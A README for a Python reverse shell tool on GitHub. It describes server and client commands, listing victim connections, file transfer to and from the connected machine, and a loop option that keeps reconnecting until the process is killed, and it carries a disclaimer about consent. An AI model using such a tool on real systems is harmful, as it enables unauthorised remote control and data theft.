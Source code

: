 # Reverse Shell
[This is a reverse shell script written in python.](https://github.com/DBC201/Reverse-Shell)

## DISCLAIMER
**This comes with neither warranty nor working guarantee whatsoever. If you do, use at your own risk.
I do not accept any responsibility of any sorts. Don't use this on systems that you
have no written consent to do so.**

## Server 
```python3 server.py```
### arguments:
- ```-p "port"``` or ```--port "port"```
    - By default the server binds to port 41369.
    - To change to any other number use -p ... or --port ...
    - For example: if you want to run the server at port 22222
    - ```python3 server.py -p 22222``` or ```python3 server.py --port 22222```

### commands:
- To list all current connections type list

- To connect to a machine type their numeric id

- To receive a file file type ```receive "file"``` while in the client's console to receive a file(must be on the same dir)
    The file will be copied into a folder called received_files at the directory server.py runs at.

- To send a file type ```send "file"```. File to be sent must be in a directory called send that's in the same
directory as server.py. It must be run at the client's console and the file will be copied into the directory
the client shell is in.
    
## Client
```python3 client.py "ip" "port"```
### arguments:
- ip: the ip of the server(this is required)
- port: the port the server is bound to (this is also required)
- ```-v```, ```--verbose```: a verbose output of what the server is running in the local shell
- ```-l```, ```--loop```: the client program will never halt unless an outside kill signal is sent.
it will attempt to connect indefinitely
